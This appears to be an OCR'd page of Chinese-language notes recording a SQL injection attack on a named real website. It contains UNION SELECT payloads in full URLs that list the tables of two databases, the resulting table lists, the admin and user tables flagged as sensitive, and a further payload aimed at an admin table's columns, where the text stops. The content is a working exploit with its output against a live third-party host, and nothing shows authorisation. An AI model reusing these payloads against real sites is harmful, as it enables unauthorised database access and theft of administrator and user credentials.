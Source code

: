 http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_name))%20from%20information_schema.tables%20where%20table_schema=0x71636D73)%20--

	qcms中的所有表

	qcms_admin
	qcms_bq
	qcms_buy
	qcms_category
	qcms_discuss
	qcms_diy
	qcms_guest
	qcms_jss
	qcms_news
	qcms_olink
	qcms_persons
	qcms_plus
	qcms_system
	qcms_users

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_name))%20from%20information_schema.tables%20where%20table_schema=0x71637373)%20--

	qcss中的所有表

	qcms_cate
	qcms_ext
	qcms_file
	qcms_form
	qcms_forminfo
	qcms_guest
	qcms_module
	qcms_money
	qcms_news
	qcms_order
	qcms_pic
	qcms_sys
	qcms_user


总共存在以下几个敏感表:

	duxcms.dc_admin 
	qcms.qcms_admin 
	qcms.qcms_users;
	qcss.qcms_user 

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=0x647578636D73%20and%20table_name=0x64635F61646D696E)%20--

duxcms.dc_admin的表结构:
